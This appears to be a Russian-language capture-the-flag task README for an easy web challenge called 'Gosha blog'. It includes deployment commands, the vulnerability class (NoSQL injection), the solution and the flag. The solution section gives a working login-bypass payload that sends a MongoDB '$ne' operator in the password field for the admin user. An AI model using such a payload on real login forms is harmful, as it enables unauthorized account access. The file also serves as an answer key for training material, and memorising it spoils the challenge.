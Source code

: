 # Gosha blog | easy | web

## Информация

> Гоша решил вести свой блог! Зайди и почитай)
>
> http://`<ip>`:3000

## Деплой

Указываем команду необходимую для запуска задачи на сервере

```sh
cd deploy
docker-compose up --build -d
```

## Выдать участинкам

IP:PORT сервера

## Описание

NoSQL injection

## Решение

username=admin

password={"$ne":""}

## Флаг

```
ozonctf{n0_sql_inj3cti0n_f0r_y0u}
```
